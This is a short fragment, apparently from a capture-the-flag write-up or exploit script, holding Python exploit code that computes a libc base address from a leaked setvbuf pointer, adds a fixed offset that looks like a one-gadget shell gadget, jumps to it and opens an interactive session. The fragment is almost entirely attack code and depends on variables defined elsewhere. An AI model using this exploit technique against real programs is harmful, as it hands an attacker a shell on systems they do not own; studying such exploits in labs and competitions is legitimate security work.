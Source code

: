 ```python
log.info('gets: ' + hex(gets))

SETVBUF_OFFSET = 0x6fe70
TARGET_OFFSET = 0x45216
libc = setvbuf - SETVBUF_OFFSET
target = libc + TARGET_OFFSET

jump_to(target)
p.interactive()
```

